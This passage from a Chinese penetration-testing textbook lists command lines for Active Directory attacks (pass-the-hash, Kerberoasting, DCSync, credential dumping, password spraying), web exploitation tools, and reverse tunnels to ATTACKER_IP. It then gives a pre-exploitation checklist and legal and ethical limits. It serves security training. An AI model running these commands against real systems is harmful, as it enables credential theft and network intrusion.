# Impacket：Python网络协议工具集
# 远程命令执行（WMIExec）
impacket-wmiexec domain/user:password@192.168.1.100

# 远程命令执行（PsExec）
impacket-psexec domain/user:password@192.168.1.100

# Pass-the-Hash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:da76f...
impacket-smbexec -hashes :da76f... domain/user@target

# Kerberoasting（提取服务票据进行离线破解）
impacket-GetUserSPNs domain/user:password -dc-ip 192.168.1.1 -request

# AS-REP Roasting（针对禁用预认证的账户）
impacket-GetNPUsers domain/ -dc-ip 192.168.1.1 -usersfile users.txt -format hashcat

# DCSync（域控制器复制凭据）
impacket-secretsdump domain/admin:password@192.168.1.1

# CrackMapExec：大规模AD环境操作
# 凭据喷洒
crackmapexec smb 192.168.1.0/24 -u admin -p 'Password123'

# 枚举共享
crackmapexec smb 192.168.1.0/24 -u admin -p 'Password123' --shares

# 远程命令执行
crackmapexec smb 192.168.1.0/24 -u admin -p 'Password123' -x "whoami"

# 提取SAM/LSA
crackmapexec smb 192.168.1.100 -u admin -p 'Password123' --sam --lsa

# Rubeus（Kerberos攻击）
# Kerberoasting
Rubeus.exe kerberoast /outfile:hashes.txt

# AS-REP Roasting
Rubeus.exe asreproast /outfile:asrep_hashes.txt

# Pass-the-Ticket
Rubeus.exe ptt /ticket:doIFvjCCBbqg...

# 票据传递（Pass-the-Hash + Overpass-the-Hash）
Rubeus.exe asktgt /user:admin /rc4:da76f554a76f... /ptt
```

#### Web应用利用工具

```bash
# Burp Suite
# 1. 代理拦截：配置浏览器代理 → 127.0.0.1:8080
# 2. Intruder：枚举/暴力破解
# 3. Repeater：手动重放和修改请求
# 4. Scanner：自动漏洞扫描（Pro版）
# 5. Extensions推荐：
#    - Autorize（授权测试）
#    - JWT Editor（JWT修改）
#    - Turbo Intruder（高速枚举）

# nuclei：模板化漏洞扫描
nuclei -u http://target.com -t cves/ -t vulnerabilities/
nuclei -l urls.txt -t cves/ -severity critical,high -o results.txt

# ffuf：快速Web Fuzzing
ffuf -u http://target.com/FUZZ -w /usr/share/wordlists/dirb/common.txt
ffuf -u http://target.com -X POST -d "username=admin&password=FUZZ" -w passwords.txt \
    -fc 401 -mr "Welcome"

# sqlmap高级用法
# 自定义tamper脚本
sqlmap -u "http://target.com/?id=1" --tamper=space2comment,between,randomcase \
    --proxy="http://127.0.0.1:8080" --random-agent --threads=5

# 批量扫描
sqlmap -m urls.txt --batch --output-dir=/tmp/sqlmap_output

# 绕过WAF的SQL注入（使用--eval参数动态生成payload）
sqlmap -u "http://target.com/?id=1" --eval="import hashlib; token=hashlib.md5(param+salt).hexdigest()"

# commix：自动化命令注入
commix --url="http://target.com/ping?host=127.0.0.1" --os-cmd="id"

# NoSQLMap：NoSQL注入
nosqlmap -u http://target.com/login -m POST --data '{"user":"admin","pass":"FUZZ"}'
```

#### 后渗透与横向移动

```bash
# BloodHound：AD环境可视化分析
# 收集数据
bloodhound-python -u user -p pass -d domain.local -c All -dc dc01.domain.local
# 导入Neo4j后查询最短攻击路径
# MATCH p=shortestPath((u:User {name:'USER@DOMAIN.LOCAL'})-[*1..]->(g:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'}))
# RETURN p

# Chisel：TCP/UDP隧道
# 攻击机（服务端）
chisel server --reverse --port 8000
# 目标机（客户端）- 将目标的3389端口转发到攻击机的3389
chisel client ATTACKER_IP:8000 R:3389:127.0.0.1:3389

# Ligolo-ng：现代隧道工具
# 攻击机
ligolo-proxy -selfcert -laddr 0.0.0.0:11601
# 目标机
ligolo-agent -connect ATTACKER_IP:11601 -ignore-cert

# Pivoting through Meterpreter
# 添加路由
meterpreter > run autoroute -s 10.10.10.0/24
# 启动SOCKS代理
msf6 > auxiliary/server/socks_proxy
msf6 > set SRVPORT 1080
msf6 > run
# 使用proxychains通过SOCKS代理扫描内网
proxychains nmap -sT -Pn 10.10.10.0/24
```

---

### 2.3.4 漏洞利用最佳实践

#### 利用前检查清单

| 检查项 | 说明 |
|--------|------|
| **授权范围** | 确认渗透测试授权书覆盖目标和利用手法 |
| **目标验证** | 确认目标IP/域名在授权范围内，避免误伤 |
| **备份确认** | 对可能影响可用性的操作（如缓冲区溢出），确认有回滚方案 |
| **通信方式** | 确认团队使用的C2通信渠道和加密方式 |
| **时间窗口** | 确认是否有限制利用时间（如仅工作时间外） |
| **数据处理** | 确认获取的敏感数据的存储和销毁流程 |

#### 常见利用失败原因与排错

| 失败现象 | 可能原因 | 排查方法 |
|----------|----------|----------|
| Payload发送无响应 | 端口不通/防火墙拦截 | 使用`nc -zv`测试连通性，检查出站规则 |
| 利用成功但无Shell | Payload与目标架构不匹配 | 确认目标OS位数（32/64），使用正确的Payload |
| Shell建立后立即断开 | 进程崩溃/杀软查杀 | 使用进程迁移，更换Payload编码 |
| 权限不足 | 用户权限限制 | 使用提权模块，寻找高权限进程注入 |
| ASLR导致崩溃 | 地址随机化 | 使用信息泄露泄露基址，或使用ROP |
| WAF拦截Payload | Payload被安全设备检测 | 使用编码器、自定义Payload、分块传输 |

#### 漏洞利用的法律与伦理边界

渗透测试必须在**明确的书面授权**范围内进行。以下行为即使在渗透测试中也可能构成违法：

- **超出授权范围**：授权测试Web应用却攻击内网数据库
- **破坏性操作**：删除数据、加密文件（勒索）、破坏服务可用性
- **数据泄露**：将获取的敏感数据用于测试以外的目的
- **持久化后门**：在非授权情况下在目标系统留下持久访问
- **第三方影响**：利用目标系统攻击授权范围外的第三方

> **关键原则**：渗透测试的目标是帮助组织发现和修复安全问题，而非造成损害。所有操作应有详细记录，所有获取的敏感数据应在报告提交后安全销毁。

---

### 2.3.5 本节小结

漏洞利用是渗透测试中技术含量最高的环节，要求测试者对目标系统有深入理解：

- **Web漏洞利用**是当前最常见的攻击面，SQL注入、XSS、SSRF、反序列化等漏洞类型各有其原理和利用手法，需要结合具体场景选择工具和技术
- **网络服务漏洞利用**更底层，Metasploit是首选框架；缓冲区溢出利用需要扎实的底层知识；认证绕过需要理解目标的认证架构
- **工具选择**取决于目标环境：Metasploit适合通用漏洞利用，Cobalt Strike/Sliver适合红队协作，Impacket/CrackMapExec适合Windows域渗透
- **利用过程必须合法合规**，严格在授权范围内操作，所有行为可追溯
